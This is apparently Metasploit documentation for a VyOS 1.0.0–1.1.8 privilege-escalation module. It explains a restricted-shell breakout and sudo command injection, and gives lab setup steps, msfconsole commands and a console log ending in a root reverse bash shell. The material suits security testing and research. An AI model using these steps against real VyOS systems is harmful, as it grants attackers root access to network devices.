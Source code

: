 ## Vulnerable Application

This module exploits command injection vulnerabilities and an insecure
default sudo configuration on [VyOS](https://www.vyos.io/products/)
versions 1.0.0 <= 1.1.8 to execute arbitrary system commands as root.

VyOS features a `restricted-shell` system shell intended for use by
low privilege users with operator privileges. This module exploits
a vulnerability in the `telnet` command to break out of the restricted
shell, then uses sudo to exploit a command injection vulnerability in
`/opt/vyatta/bin/sudo-users/vyatta-show-lldp.pl` to execute commands
with root privileges.

This module has been tested successfully on VyOS 1.1.8 amd64 and
VyOS 1.0.0 i386.

## Verification Steps

Download:

* https://downloads.vyos.io/?dir=release/legacy/

Login as `vyos` / `vyos`.

Create a new user with `operator` privileges:

```
vyos@vyos:~$ configure 
[edit]
vyos@vyos# set system login user jsmith full-name "John Smith"
[edit]
vyos@vyos# set system login user jsmith authentication plaintext-password examplepassword
[edit]
vyos@vyos# set system login user jsmith level operator
[edit]
vyos@vyos# commit
s[edit]
vyos@vyos# save
Saving configuration to '/config/config.boot'...
Done
```

Start the OpenSSH service:

```
vyos@vyos:~$ sudo sh
sh-4.1# service ssh start
```

1. Start msfconsole
1. Do: `use exploit/linux/ssh/vyos_restricted_shell_privesc`
1. Do: `set RHOSTS [IP]`
1. Do: `set USERNAME [username]`
1. Do: `set PASSWORD [password]`
1. Do: `set payload [payload]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`

## Options

### USERNAME

SSH username

### PASSWORD

SSH password

## Scenarios

### VyOS 1.1.8 amd64

```
msf6 > use exploit/linux/ssh/vyos_restricted_shell_privesc 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > set rhosts 172.16.191.158
rhosts => 172.16.191.158
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > set username jsmith
username => jsmith
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > set password examplepassword
password => examplepassword
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > check
[*] 172.16.191.158:22 - The service is running, but could not be validated. SSH service detected.
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > set lhost 172.16.191.165 
lhost => 172.16.191.165
msf6 exploit(linux/ssh/vyos_restricted_shell_privesc) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] 172.16.191.158:22 - Attempt to login to VyOS SSH ...
[+] SSH connection established
[*] Requesting PTY ...
[+] PTY successfully obtained
[*] Requesting shell ...
[+] Remote shell successfully obtained
[*] Remote system is VyOS restricted-shell. Attempting breakout ...
[+] Broke out of restricted-shell
[*] Command shell session 1 opened (172.16.191.165:4444 -> 172.16.191.158:59907) at 2020-09-11 14:01:41 -0400

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux vyos 3.13.11-1-amd64-vyos #1 SMP Sat Nov 11 12:10:30 CET 2017 x86_64 GNU/Linux
cat /etc/issue
Welcome to VyOS - \n \l

```
